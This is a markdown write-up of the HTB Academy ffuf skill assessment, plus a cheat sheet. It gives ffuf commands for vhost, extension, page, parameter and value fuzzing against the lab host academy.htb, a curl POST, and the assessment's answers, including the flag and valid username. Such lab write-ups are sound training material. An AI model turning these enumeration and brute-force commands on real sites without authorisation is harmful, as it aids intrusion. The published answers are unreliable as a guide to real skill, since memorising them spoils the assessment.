 # HTB Academy 

## Module: Attacking Web Application with ffuf 




### Skill Assessment 


Qustion 1: `Run a sub-domain/vhost fuzzing scan on 'academy.htb' for the IP shown above. What are all the vhosts you can identify?`
Ans: `archive faculty test`
##### Solution:
Use the following command to get the `vhosts` but first make sure you add the DNS entry in /etc/host file  
```
$ ffuf -w wordlist.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb' -fs xxx
```
There you have to replace `xxx` with the filter size number so do that properly to get the above answer

Question 2: `Before you run your page fuzzing scan, you should first run an extension fuzzing scan. What are the different extensions accepted by the domains?`
Ans: `.php .php7 .phps`
##### Solution:
Use the following command to get the valid extension
```
$ ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ 
```

Question 3:`One of the pages you will identify should say 'You don't have access!'. What is the full page URL?`
Ans: `http://faculty.academy.htb:PORT/courses/linux-security.php7`
##### Solution:
Use the following syntax to get the above result as you find all the valid extension so try all the extension and you find that page 
```
$ ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v
```
There you have to change `.php` with all the extension you found to get the answer or you can add all the extension simultaneously like `.php,.php7,.phtml` etc 

Question 4:`In the page from the previous question, you should be able to find multiple parameters that are accepted by the page. What are they?`
Ans: `user username`
##### Solution:
Use this command to get that parameters.use the valid filters to get the result 
```
$ ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/cources/linux-security?FUZZkey -fs xxx 
```
There also you have to change `xxx` with appropriate filter size value  

Question 5:`Try fuzzing the parameters you identified for working values. One of them should return a flag. What is the content of the flag?`
Ans: `HTB{w3b_fuzz1n6_m4573r}`
#### Solution
first scan for common sub directories. common sub directory found  `/courses`
this sub directory found on "archive" & "faculty"  subdomains. Now start page fuzzing scan to find the page that give us the page that show us the message **you don't have a permission**

The faculty sub directory have the page `linux-security.php7` that shows message **you don't have permission**

As they don't give us the permissions so that means we have to give him some other parameters also then the give us access so start parameter fuzzing scan. By doing parameter fuzzing using GET method found "user" parameter but when go to the following link 
```
http://faculty.academy.htb:PORT/courses/linux-security.php7?user=key
```
They show message **This method is no longer use** so we have to do this using `Post` method so by doing this they not show the result so i start finding more parameters and  found two parameters "user and username" now enter this parameter in the link like 
```
http://faculty.academy.htb:PORT/courses/linux-security.php7?username=key
```
They show message **You don't have access!**
As far i found parameter 'username' but for get the flag we also have the one more parameter for this 

In `Seclist` there is a lot of username word list available so by using the following word list i found the three username parameter 

WORDLIST: `SecLists/Usernames/xato-net-10-million-usernames-dup.txt`
 
 Found user parameter  'harry', 'Harry', 'HARRY'

so by sending POST request to all of the user parameter one of them give me the flag 

Command for the post request is following:
```
curl -X POST -d 'username={user parameter place here}' http://faculty.academy.htb:{port no here}/courses/linux-security.php7

```
The valid username parameter is third one 'HARRY'



# HTB CheateSheet


#### Word list  

##### Seclist
1.   Directory/Page Wordlist
     `SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`                                 
2. Extensions Wordlist    
    `SecLists/Discovery/Web-Content/web-extensions.txt`                                                                                
3. Domain Wordlist  
    `SecLists/Discovery/DNS/subdomains-top1million-5000.txt`                                                                       
4. parameters wordlist     
    `SecLists/Discovery/Web-Content/burp-parameter-names.txt`                                                                     
##### Commands 
1.  Directory Fuzzing 
  `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ`                                                                          
2.  Extension Fuzzing 
   `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`                                                                     
3. Page Fuzzing
`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php`                                                                  
4. Recursive Fuzzing
`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`                                   

5.  Sub-domain Fuzzing 
`ffuf -w wordlist.txt:FUZZ -u https://FUZZ.hackthebox.eu`                                                                         
6. VHost Fuzzing
`ffuf -w wordlist.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb' -fs xxx`
Where `xxx` contains the appropriate numbers according to the size  

7.  Parameter Fuzzing - GET
`ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZkey -fs xxx`                                                                                           

8. Parameter Fuzzing - POST
`ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZkey' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`                         

9. Value Fuzzing
`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'idFUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`                                          

#### Misc Commands
1.  Add DNS entry 
`sudo sh -c 'echo "SERVER_IP  academy.htb" >> /etc/hosts'`                            
2.  Create Sequence Wordlist
`for i in $(seq 1 1000); do echo $i >> ids.txt; done`                       
3. curl w/ POST
`curl http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'idkey' -H 'Content-Type: application/x-www-form-urlencoded'`
